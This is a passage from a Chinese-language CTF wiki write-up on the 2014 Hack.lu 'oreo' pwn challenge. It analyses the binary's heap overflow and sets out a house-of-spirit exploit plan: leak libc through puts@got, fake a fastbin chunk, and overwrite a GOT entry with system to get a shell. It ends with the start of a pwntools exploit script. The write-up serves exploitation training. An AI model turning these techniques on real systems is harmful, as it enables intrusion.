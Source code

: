 ```shell
➜  2014_Hack.lu_oreo git:(master) file oreo
oreo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=f591eececd05c63140b9d658578aea6c24450f8b, stripped
➜  2014_Hack.lu_oreo git:(master) checksec oreo
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/house_of_spirit/2014_Hack.lu_oreo/oreo'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，程序確實是比較老的，32位程序，動態鏈接，就連 RELRO 技術也沒有上。

### 基本功能

**需要注意的是，該程序並沒有進行 setvbuf 操作，因此在初次執行 io 函數時，會在堆上分配空間。**

正如程序中直接輸出的信息，程序主要是一個原始的在線槍支系統。其中，根據添加槍支的過程，我們可以得到槍支的基本結構如下

```c
00000000 rifle           struc ; (sizeof=0x38, mappedto_5)
00000000 descript        db 25 dup(?)
00000019 name            db 27 dup(?)
00000034 next            dd ?                    ; offset
00000038 rifle           ends
```

程序的基本功能如下

- 添加槍支，其主要會讀取槍支的名字與描述。但問題在於讀取的名字的長度過長，可以覆蓋 next 指針以及後面堆塊的數據。可以覆蓋後面堆塊的數據大小爲 56-(56-27)=27 大小。需要注意的是，這些槍支的大小都是在fastbin 範圍內的。
- 展示添加槍支，即從頭到尾輸出槍支的描述與名字。
- 訂已經選擇的槍支，即將所有已經添加的槍支釋放掉，但是並沒有置爲NULL。
- 留下訂貨消息
- 展示目前狀態，即添加了多少隻槍，訂了多少單，留下了什麼信息。

不難分析得到，程序的漏洞主要存在於添加槍支時的堆溢出漏洞。

### 利用

基本利用思路如下

1. 由於程序存在堆溢出漏洞，而且還可以控制 next 指針，我們可以直接控制 next 指針指向程序中 got 表的位置。當進行展示的時候，即可以輸出對應的內容，這裏同時需要確保假設對應地址爲一個槍支結構體時，其 next 指針爲 NULL。這裏我採用 puts@got。通過這樣的操作，我們就可以獲得出 libc 基地址，以及 system 函數地址。
2. 由於槍支結構體大小是 0x38 大小，所以其對應的 chunk 爲 0x40。這裏採用 `house of sprit` 的技術來返回 0x0804A2A8 處的chunk，即留下的消息的指針。因此，我們需要設置 0x0804A2A4 處的內容爲 0x40，即需要添加 0x40 支槍支，從而繞過大小檢測。同時爲了確保可以繞過 next chunk 的檢測，這裏我們編輯留下的消息。
3. 在成功分配這樣的 chunk 後，我們其實就有了一個任意地址修改的漏洞，這裏我們可以選擇修改一個合適的 got 項爲 system 地址，從而獲得 shell。

具體代碼如下

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./oreo"
oreo = ELF("./oreo")
if args['REMOTE']:
    p = remote(ip, port)
else:
    p = process("./oreo")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def add(descrip, name):
```